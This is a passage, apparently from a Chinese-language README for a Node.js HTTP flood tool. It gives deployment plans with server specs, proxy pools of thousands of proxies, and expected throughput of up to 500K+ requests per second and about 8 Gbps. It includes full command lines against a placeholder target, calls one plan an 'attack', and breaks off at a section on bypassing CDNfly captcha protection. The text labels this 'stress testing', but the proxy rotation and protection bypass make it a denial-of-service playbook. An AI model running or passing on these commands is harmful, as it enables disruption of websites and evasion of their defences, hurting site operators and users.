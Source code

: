 **适用场景**: 正式压测、中等强度攻击

```yaml
环境: VPS（16核 32GB 1Gbps）
工具: main.js + nflood.js
代理: 筛选后免费代理（1000个）
配置:
  - 浏览器: 10
  - 请求/浏览器: 15
  - 时长: 300秒

预期效果:
  - QPS: 150K+
  - 内存: ~3GB
  - CPU: 80-90%

命令:
  node main.js -u https://target.com -p proxy_filtered.txt \
      -t 10 -r 15 -s 300 -c -o
```

---

### 方案 3: 服务器部署（极限）

**适用场景**: 大规模压测、极限性能

```yaml
环境: 专业服务器（32核 64GB 10Gbps）
工具: main.js（多浏览器模式）
代理: 混合代理（付费 + 筛选免费，5000个）
配置:
  - 浏览器: 30
  - 请求/浏览器: 20
  - 时长: 600秒
  - 优化: 开启

预期效果:
  - QPS: 500K+
  - 内存: ~10GB
  - CPU: 90-95%
  - 带宽: ~8Gbps

命令:
  node main.js -u https://target.com -p proxy_all.txt \
      -t 30 -r 20 -s 600 -c -o -d
```

---

### 方案 4: CDNfly 绕过（智能）

**适用场景**: 带 CDNfly 验证码的目标
